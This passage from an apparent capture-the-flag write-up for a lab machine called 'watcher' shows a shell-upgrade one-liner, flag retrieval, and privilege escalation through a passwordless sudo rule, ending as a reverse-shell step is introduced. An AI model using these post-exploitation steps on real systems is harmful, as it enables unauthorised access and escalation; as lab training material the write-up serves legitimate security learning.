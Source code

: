 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
hit enter twice
export TERM=xterm
```

Inside the `/var/www/html` we can see an interesting directory name `more_secrets_a9f10a`

```
www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt 
FLAG{lfi_what_a_guy}
www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Dec  3  2020 .
drwxr-xr-x 5 root root 4096 Dec  3  2020 ..
-rw-r--r-- 1 root root   21 Dec  3  2020 flag_3.txt
www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt 
FLAG{lfi_what_a_guy}
```

Running `sudo -l` we get this result

```
www-data@watcher:/home$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

Seems like we can do sudo as `toby` and does not require a password.

`sudo  -u toby bash`

We can then retrieve the flag

```
toby@watcher:~$ cat flag_4.txt 
FLAG{chad_lifestyle}
```

Inside toby's home dir, we can see a note.

```
www-data@watcher:/home/toby$ cat note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

We then generate another reverse shell and echo it to the bash script
